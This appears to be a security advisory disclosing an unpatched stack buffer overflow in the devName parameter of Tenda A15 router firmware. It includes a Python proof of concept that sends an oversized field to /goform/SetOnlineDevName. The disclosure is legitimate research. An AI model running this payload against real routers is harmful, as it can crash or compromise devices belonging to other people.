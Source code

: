 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "devName" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the formSetDeviceName function, the devName parameter is obtained via websGetVar and passed to the first parameter of set_device_name

![1703731523270](image/SetOnlineDevName.devname.zh-cn/1703731523270.png)

In the set_device_name function, the dev_name variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform DOS attacks and RCE attacks.

![1703731669271](image/SetOnlineDevName.devname.zh-cn/1703731669271.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b',
    "devName": 'devname1'*0x1000
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443694/video_to_markdown/images/youtube--5fkQweoMJZE-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/5fkQweoMJZE "")

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html

## Acknowledgment

The vulnerability belongs to Chenjun Ma from Wuhan University.
